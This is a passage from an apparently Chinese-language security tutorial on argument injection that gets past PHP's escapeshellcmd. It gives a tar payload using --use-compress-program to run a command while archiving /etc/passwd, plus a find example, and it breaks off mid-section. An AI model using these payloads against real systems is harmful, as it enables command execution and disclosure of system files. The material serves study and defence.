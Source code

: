 
```
$ groups 'myuser1 myuser2'
groups: "myuser1 myuser2": no such user

```

## [2]已知的绕过/利用

### 参数注入

> 
从上一章可以看到，使用escapeshellcmd / escapeshellarg时不可能执行第二个命令<br/> 但是我们仍然可以将参数传递给第一个命令<br/> 这意味着我们也可以将新选项传递给命令<br/> 利用漏洞的能力取决于目标可执行文件<br/> 可以在下面找到一些已知可执行文件的列表，其中包含一些可能被滥用的特定选项


#### TAR

> 
压缩some_file到/tmp/sth


```
$command = '-cf /tmp/sth /some_file';
system(escapeshellcmd('tar '.$command));

```

> 
创建一个空文件/tmp/exploit


```
$command = "--use-compress-program='touch /tmp/exploit' -cf /tmp/passwd /etc/passwd";
system(escapeshellcmd('tar '.$command));

```

#### FIND

> 
在/Desktop目录下查找1.php


```
&lt;?php
	$command = '1.php';
	system('find ~/Desktop/ -iname '.escapeshellcmd($command));
?&gt;

=&gt; 
/root/Desktop/1.php

```

> 
打印/etc/passwd内容
